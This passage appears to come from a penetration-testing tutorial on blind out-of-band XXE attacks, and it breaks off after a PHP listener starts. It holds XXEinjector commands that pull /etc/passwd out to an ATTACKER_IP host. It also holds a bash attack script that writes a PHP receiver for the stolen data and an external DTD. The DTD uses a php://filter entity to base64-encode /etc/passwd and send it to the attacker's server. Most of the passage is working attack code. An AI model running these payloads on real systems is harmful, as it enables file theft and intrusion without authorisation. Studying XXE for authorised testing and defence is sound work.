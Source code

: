 **Step 2: Execute XXEinjector**
```bash
# Automated OOB exfiltration
ruby XXEinjector.rb \
    --host=ATTACKER_IP \
    --httpport=8000 \
    --file=/tmp/xxe.req \
    --path=/etc/passwd \
    --oob=http \
    --phpfilter

# Output stored in Logs directory
cat Logs/target.com/etc/passwd.log
```

#### XXEinjector Advanced Options
```bash
# Different attack modes
--oob=http          # HTTP OOB exfiltration
--oob=gopher        # Gopher protocol
--oob=ftp          # FTP protocol

# Additional features
--phpfilter        # Use PHP filter wrapper
--cdata           # CDATA-based exfiltration  
--xml             # Basic XXE enumeration
--enumerate       # File/directory enumeration
```

### Complete OOB Attack Workflow

#### Step-by-Step Implementation
```bash
#!/bin/bash
# oob-xxe-attack.sh

TARGET="http://target.com/blind/submitDetails.php"
ATTACKER_IP="YOUR_IP"

echo "[+] Setting up OOB XXE attack"

# Step 1: Create decoding server
cat > index.php << 'EOF'
<?php
if(isset($_GET['content'])){
    $decoded = base64_decode($_GET['content']);
    echo "Exfiltrated data:\n";
    echo $decoded;
    error_log("XXE Data: " . $decoded);
}
?>
EOF

# Step 2: Create external DTD
cat > xxe.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://$ATTACKER_IP:8000/?content=%file;'>">
EOF

# Step 3: Start server
echo "[+] Starting PHP server on port 8000"
php -S 0.0.0.0:8000 &
SERVER_PID=$!

```
